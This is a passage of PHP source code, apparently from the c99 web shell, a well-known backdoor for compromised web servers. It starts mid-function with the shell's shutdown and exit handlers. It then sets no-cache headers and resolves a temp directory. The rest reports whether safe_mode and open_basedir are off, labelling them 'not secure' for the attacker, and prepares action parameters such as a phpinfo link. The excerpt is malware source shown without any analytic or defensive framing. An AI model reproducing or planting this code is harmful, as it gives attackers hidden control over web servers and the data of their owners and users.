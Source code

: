 { 
 global $gzipencode,$ft; 
 if (!headers_sent() and $gzipencode and !in_array($ft,array("img","download","notepad"))) 
 { 
  $v = @ob_get_contents(); 
  @ob_end_clean(); 
  @ob_start("ob_gzHandler"); 
  echo $v; 
  @ob_end_flush(); 
 } 
} 
function c99shexit() 
{ 
 onphpshutdown(); 
 exit; 
} 
header("Expires: Mon, 26 Jul 1997 05:00:00 GMT"); 
header("Last-Modified: ".gmdate("D, d M Y H:i:s")." GMT"); 
header("Cache-Control: no-store, no-cache, must-revalidate"); 
header("Cache-Control: post-check=0, pre-check=0", FALSE); 
header("Pragma: no-cache"); 
if (empty($tmpdir)) 
{ 
 $tmpdir = ini_get("upload_tmp_dir"); 
 if (is_dir($tmpdir)) {$tmpdir = "/tmp/";} 
} 
$tmpdir = realpath($tmpdir); 
$tmpdir = str_replace("\\",DIRECTORY_SEPARATOR,$tmpdir); 
if (substr($tmpdir,-1) != DIRECTORY_SEPARATOR) {$tmpdir .= DIRECTORY_SEPARATOR;} 
if (empty($tmpdir_logs)) {$tmpdir_logs = $tmpdir;} 
else {$tmpdir_logs = realpath($tmpdir_logs);} 
if (@ini_get("safe_mode") or strtolower(@ini_get("safe_mode")) == "on") 
{ 
 $safemode = TRUE; 
 $hsafemode = "&lt;font color=red&gt;ON (secure)&lt;/font&gt;"; 
} 
else {$safemode = FALSE; $hsafemode = "&lt;font color=green&gt;OFF (not secure)&lt;/font&gt;";} 
$v = @ini_get("open_basedir"); 
if ($v or strtolower($v) == "on") {$openbasedir = TRUE; $hopenbasedir = "&lt;font color=red&gt;".$v."&lt;/font&gt;";} 
else {$openbasedir = FALSE; $hopenbasedir = "&lt;font color=green&gt;OFF (not secure)&lt;/font&gt;";} 
$sort = htmlspecialchars($sort); 
if (empty($sort)) {$sort = $sort_default;} 
$sort[1] = strtolower($sort[1]); 
$DISP_SERVER_SOFTWARE = getenv("SERVER_SOFTWARE"); 
if (!ereg("PHP/".phpversion(),$DISP_SERVER_SOFTWARE)) {$DISP_SERVER_SOFTWARE .= ". PHP/".phpversion();} 
$DISP_SERVER_SOFTWARE = str_replace("PHP/".phpversion(),"&lt;a href=\"".$surl."act=phpinfo\" target=\"_blank\"&gt;&lt;b&gt;&lt;u&gt;PHP/".phpversion()."&lt;/u&gt;&lt;/b&gt;&lt;/a&gt;",htmlspecialchars($DISP_SERVER_SOFTWARE)); 
@ini_set("highlight.bg",$highlight_bg); //FFFFFF 
@ini_set("highlight.comment",$highlight_comment); //#FF8000 
@ini_set("highlight.default",$highlight_default); //#0000BB 
@ini_set("highlight.html",$highlight_html); //#000000 
@ini_set("highlight.keyword",$highlight_keyword); //#007700 
@ini_set("highlight.string",$highlight_string); //#DD0000 
if (!is_array($actbox)) {$actbox = array();} 
$dspact = $act = htmlspecialchars($act); 
$disp_fullpath = $ls_arr = $notls = null; 
$ud = urlencode($d); 